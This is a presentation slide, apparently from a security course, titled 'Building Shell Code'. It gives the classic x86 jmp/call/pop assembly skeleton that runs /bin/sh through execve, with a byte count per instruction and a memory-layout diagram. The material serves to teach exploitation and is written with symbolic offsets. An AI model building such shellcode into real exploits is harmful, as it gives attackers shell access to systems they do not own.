

# Building Shell Code
jmp    offset-to-call           # 2 bytes
popl   %esi                     # 1 byte
movl   %esi,array-offset(%esi)  # 3 bytes
movb   $0x0,nullbyteoffset(%esi) # 4 bytes
movl   $0x0,null-offset(%esi)   # 7 bytes
movl   $0xb,%eax                # 5 bytes
movl   %esi,%ebx                # 2 bytes
leal   array-offset,(%esi),%ecx # 3 bytes
leal   null-offset(%esi),%edx   # 3 bytes
int    $0x80                    # 2 bytes
movl   $0x1, %eax		      # 5 bytes
movl   $0x0, %ebx		      # 5 bytes
int    $0x80		      # 2 bytes
call   offset-to-popl           # 5 bytes
 /bin/sh string goes here
empty			      # 4 bytes
empty
jmp
call
popl
“/bin/sh”
more code
address of “/bin/sh”
ptr